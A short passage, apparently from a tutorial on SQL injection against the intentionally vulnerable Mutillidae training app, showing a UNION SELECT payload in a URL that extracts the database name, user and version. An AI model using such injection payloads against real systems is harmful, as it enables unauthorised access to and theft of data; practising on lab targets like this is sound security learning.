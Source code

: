 ![](o16.png)


Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.1.7/mutillidae/index.php?page=user-info.php&username=senthil%27union%20select%201,database(),%20user(),%20version(),5%23&password=sk710-info-php-submit-button=View+Account+Details

![](o17.png)
